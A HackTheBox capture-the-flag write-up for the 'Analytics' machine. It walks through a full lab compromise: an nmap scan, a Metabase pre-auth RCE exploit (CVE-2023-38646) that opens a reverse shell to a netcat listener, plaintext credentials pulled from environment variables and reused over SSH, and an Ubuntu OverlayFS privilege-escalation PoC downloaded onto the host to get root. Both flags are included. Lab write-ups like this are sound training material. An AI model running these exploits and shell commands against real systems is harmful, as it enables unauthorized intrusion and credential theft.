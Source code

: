 ```yaml
---
title: "Analytics"
description: "Another machine today! Not too hard I think I'm going to step up the difficulty!"
pubDate: 2024-01-03
author: "sealldev"
section: "HackTheBox"
image: "images/htb/box/analytics/icon.png"
tags: ["easy", "hackthebox-machine"]
---
```


**Machine created by:** [7u9y](https://app.hackthebox.com/users/260996) & [TheCyberGeek](https://app.hackthebox.com/users/114053)

## Recon

Starting with a nmap scan of the IP, we see 3 open ports.

```
$ sudo nmap 10.10.11.233 --top-ports 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-03 02:53 AEDT
Nmap scan report for 10.10.11.233
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Lets edit our `/etc/hosts` and add a new entry (If we set it to `analytics.htb` it redirects us to `analytical.htb` so we will use that).

```
10.10.11.233 analytical.htb
```

Visiting [analytical.htb](http://analytical.htb:80) we see a common company landing page.

![Home Page](images/htb/box/analytics/home.png)

After clicking `Login` were shown a new subdomain: `data.analytical.htb`.

Lets add that to the `/etc/hosts` file.

```
10.10.11.233 data.analytical.hackthebox,analytical.htb
```

Visiting `data.analytical.htb` we see a Metabase login page.

![Metabase Login](images/htb/box/analytics/metabase.png)

Looking for Metabase CVE's online I come across a [Pre-Auth RCE PoC](https://github.com/securezeron/CVE-2023-38646) which has a reverse shell script.

## Exploitation & Initial Access

Let's setup a listener locally with nc.

```
$ nc -lvnp 4444
```

And lets run the exploit:

```
$ python3 CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb --lport 4444 --lhost 10.10.***.***
[DEBUG] Original rhost: http://data.analytical.htb
[DEBUG] Preprocessed rhost: http://data.analytical.htb
[DEBUG] Input Arguments - rhost: http://data.analytical.hackthebox, lhost: 10.10.***.***, lport: 4444
[DEBUG] Fetching setup token from http://data.analytical.htb/api/session/properties...
[DEBUG] Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Version: v0.46.6
...
[DEBUG] POST to http://data.analytical.htb/api/setup/validate failed with status code: 400
```

and on our listener we see a new shell!

```
Connection from 10.10.11.233:34544
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
218a8fec6c49:/$ whoami
whoami
metabase
```

## User Flag

Now looking through the `/app` directory I read `run_metabase.sh` and see its reading creds from environment variables.

```sh
# usage: file_env VAR [DEFAULT]
#    ie: file_env 'XYZ_DB_PASSWORD' 'example'
# (will allow for "$XYZ_DB_PASSWORD_FILE" to fill in the value of
#  "$XYZ_DB_PASSWORD" from a file, especially for Docker's secrets feature)
# taken from https://github.com/docker-library/postgres/blob/master/docker-entrypoint.sh
# This is the specific function that takes the env var which has a "_FILE" at the end and transforms that into a normal env var.
file_env() {
    local var="$1"
    local fileVar="${var}_FILE"
    local def="${2:-}"
    if [ "${!var:-}" ] && [ "${!fileVar:-}" ]; then
        echo >&2 "error: both $var and $fileVar are set (but are exclusive)"
        exit 1
    fi
    local val="$def"
    if [ "${!var:-}" ]; then
        val="${!var}"
    elif [ "${!fileVar:-}" ]; then
        val="$(< "${!fileVar}")"
    fi
    export "$var"="$val"
    unset "$fileVar"
}
```

Running `printenv` gives us the following output:

```
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=218a8fec6c49
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/app
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
OLDPWD=/
```

In there are the following credentials `metalytics:An4lytics_ds20223#`.

Let's use this on SSH:

```
$ ssh metalytics@analytical.htb
metalytics@analytical.htb's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
...
metalytics@analytics:~$ cat user.txt
43b96c62ca27b47911880bebe17962df
```

And there's the user flag!

Flag: `43b96c62ca27b47911880bebe17962df`

## Root Flag

I firstly check `sudo -l` for any living-off-the-land opportunities.

```
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

Hmm...

Any SUID binaries? (`find / -type f -perm -04000 -ls 2>/dev/null`)

```
      842     40 -rwsr-xr-x   1 root     root        40496 Nov 24  2022 /usr/bin/newgrp
      697     72 -rwsr-xr-x   1 root     root        72072 Nov 24  2022 /usr/bin/gpasswd
     1111     56 -rwsr-xr-x   1 root     root        55672 Feb 21  2022 /usr/bin/su
     1187     36 -rwsr-xr-x   1 root     root        35192 Feb 21  2022 /usr/bin/umount
      573     44 -rwsr-xr-x   1 root     root        44808 Nov 24  2022 /usr/bin/chsh
      681     36 -rwsr-xr-x   1 root     root        35200 Mar 23  2022 /usr/bin/fusermount3
     2484    228 -rwsr-xr-x   1 root     root       232416 Apr  3  2023 /usr/bin/sudo
      876     60 -rwsr-xr-x   1 root     root        59976 Nov 24  2022 /usr/bin/passwd
      830     48 -rwsr-xr-x   1 root     root        47480 Feb 21  2022 /usr/bin/mount
      567     72 -rwsr-xr-x   1 root     root        72712 Nov 24  2022 /usr/bin/chfn
     1409     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    13994    332 -rwsr-xr-x   1 root     root         338536 Aug 24 13:40 /usr/lib/openssh/ssh-keysign
    13665     20 -rwsr-xr-x   1 root     root          18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
```

None on GTFOBins...

Look at other port activity (`netstat -nltp`), nothing of interest exists their either. 

Nothing inside `printenv`, what now?

I looked up for privilege escalation vulnerabilities in the Ubuntu version supplied once we joined SSH (Ubuntu 22.04.3) and found [CVE-2023-2640 + CVE-2023-32629 PoC](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) which gives root!

I cloned the PoC locally and hosted a local python server (`python3 -m http.server`) and downloaded the exploit on the server.

```
metalytics@analytics:/tmp$ chmod +x exploit.sh
metalytics@analytics:/tmp$ ./exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# cat /root/root.txt
9db68c8ac70474f468afe8ca2ac44373
```

There's the root flag! 

Flag: `9db68c8ac70474f468afe8ca2ac44373`

Success!

![Success](images/htb/box/analytics/submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev) and [LinkedIn](https://www.linkedin.com/in/noah-cooper-5442ab309/).

You can also find my other contacts on the [whoami](../about) page.